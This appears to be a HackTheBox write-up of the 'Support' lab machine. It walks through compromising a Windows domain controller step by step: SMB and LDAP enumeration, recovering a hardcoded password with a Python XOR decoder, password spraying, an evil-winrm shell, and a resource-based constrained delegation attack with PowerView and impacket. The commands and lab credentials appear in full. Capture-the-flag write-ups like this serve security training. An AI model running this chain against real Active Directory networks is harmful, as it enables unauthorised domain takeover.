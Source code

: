  ---
 title: HTB | Support
 author: Zeropio
 date: 2022-08-28
 categories: [Pentesting, HackTheBox]
 tags: [htb, windows, easy, machines]
 permalink: /pentesting/htb/machines/support
 ---

 ![HTB Img](/assets/img/hackthebox/card/Support.png)

# Footprinting

The nmap provides us with:

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-28 15:40:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
58047/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-28T15:40:59
|_  start_date: N/A
|_clock-skew: 1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

## RPC

We can star a `rpcclient` on the DC:

```console
zero@pio$ rpcclient -U "" -N 10.10.11.174
rpcclient $> querydominfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> getdompwinfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```

We can access but doesn’t have rights to get anything. We can run `enum4linux` to get some info, but only got that:

- Some usernames: administrator, guest, krbtgt, domain admins, root, bin, none
- Server 10.10.11.174 allows sessions using username '', password '’
- Domain Name: SUPPORT
- Host is part of a domain (not a workgroup)

## SMB

We can list the SMB contents:

```console
zero@pio$ smbclient -N -L \\\\10.10.11.174

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share
```

We cannot connect to **NETLOGON**:

```console
zero@pio$ smbclient -N \\\\10.10.11.174\\NETLOGON
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

But we can connect to **support-tools**:

```console
zero@pio$ smbclient -N \\\\10.10.11.174\\support-tools
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
```

We can see some zips files. Let’s see what are in them.

# Foothold

We can use **dnSpy** to see the code of the **UserInfo.exe** we got in the smb. We see a **Protected** file that contains a key and the way to decode the password. We can use Python to get the password:

```console
zero@pio$ python3
>>> enc_password = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
>>> key = b"armando"
>>> import base64
>>> array = base64.b64decode(enc_password)
>>> array2 = []
>>> for i in range(len(array)):
...     array2.append(chr(array[i] ^ key[i % len(key)] ^ 223))
... 
>>> print("".join(array2))
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Now we can use `ldapsearch` with the password:

```console
zero@pio$ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
```

We get a bunch of information. We can get a password in a info field as `info: Ironside47pleasure40Watchful` . We can do a password spray with the users we got in this output. First, filter by them:

```console
zero@pio$ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep name: | sed 's/^name: //' | grep -vE 'D|C|A|U'
```

Add them to a list and use crackmapexec:

```console
zero@pio$ crackmapexec smb 10.10.11.174 -u valid_users -p "Ironside47pleasure40Watchful"

SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful
```

We can connect now:

```console
zero@pio$ evil-winrm -i 10.10.11.174 -u support -p "Ironside47pleasure40Watchful"
```

# Privilege Escalation

We can check the privileges of our user:

```console
*Evil-WinRM* PS C:\Users\support\Desktop> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> Get-ObjectAcl -SamAccountName support -ResolveGUIDs
```

We can see that we have **GenericAll** privileges. Let’s use it to create a new user:

```console
*Evil-WinRM* PS C:\Users\support\Desktop> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> $password = ConvertTo-SecureString 'SecurePass1' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\support\Desktop> New-MachineAccount -MachineAccount hacker -Password $password -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = hacker$
Verbose: [+] Distinguished Name = CN=hacker,CN=Computers,DC=support,DC=htb
[+] Machine account hacker added
```

Now we need to get the SID:

```console
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer hacker

pwdlastset             : 8/28/2022 9:49:09 AM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=hacker,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : hacker
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5103
samaccountname         : hacker$
```

Now, with the SID, let’s add the privileges to the account to request TGT tickets:

```console
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5103)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Use the user from the Linux host to request a ticket:

```console
zero@pio$ impacket-getST support.htb/hacker:SecurePass1 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
```

Export the ticket and use `wmiexec` to get the shell:

```console
zero@pio$ export KRB5CCNAME=administrator.ccache
zero@pio$ impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k

C:\>whoami
support\administrator
```

